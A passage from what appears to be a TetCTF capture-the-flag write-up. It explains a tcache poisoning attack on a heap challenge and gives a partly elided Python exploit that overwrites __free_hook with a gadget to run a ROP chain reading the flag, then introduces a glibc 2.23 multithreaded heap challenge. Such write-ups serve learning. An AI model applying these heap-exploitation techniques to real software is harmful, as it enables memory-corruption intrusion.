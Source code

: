 ## Tcache poisoning
Exactly the same as `cache_v1`: Freeing the two `victim` chunks and we can easily overwrite their `fd` pointer, classic `tcache poisoning`. With that, I now can overwrite `__free_hook` and also have all the leaked addresses in my hands. I could just use my ROP chain that I explained [here](https://blog.efiens.com/post/midas/heap-seccomp-rop/) to read the flag. Note that the `payload` must be put into a cache's `name`, not `content`, because the `name` is what actually got `free()` first when we call `erase`.
```python
# Erase victims, overwrite victim2's fd to __free_hook
erase("victim1")
erase("victim2")
write("orig", 0x120b0, 8, p64(l.symbols["__free_hook"]))

# Build ROP payload
base = heap + 0x2d190             # payload_base (address of the chunk)
payload = b"A"*8                  # <-- [rdi] <-- payload_base
... # read the full payload in my other post or my full script
payload += b"/home/cache/flag"

# Create a cache with payload as its name
create(payload, 0x100)
write(payload, 0, 8, "A"*8)

# Overwrite __free_hook with call_gadget
create("free", 0x100)
write("free", 0, 8, p64(call_gadget))

# Execute the chain
erase(payload)
```

The flag is:
```
TetCTF{https://www.youtube.com/watch?v=RYhKUKzD6IQ}
```

## Appendix
The full exploit is `a.py`.

# SimpleSystem
## Introduction
- **Given files:** `SimpleSystem`, `libc-2.23.so`.
- **Category:** Pwnable
- **Hint**: `do you know an arena can be reused when arena list is full ?`
- **Summary:** A glibc 2.23 heap challenges that is very unique. It is a simple system (as the name suggest) that we can signup, signin and use its functionalities, it utilizes multithreading to implement them. The bug is in the synchronization implementation of multithreading, and the exploitation relies on how glibc handles `malloc()` on multithreaded environment (although there is another intended bug in the authentication process, but it is not needed).
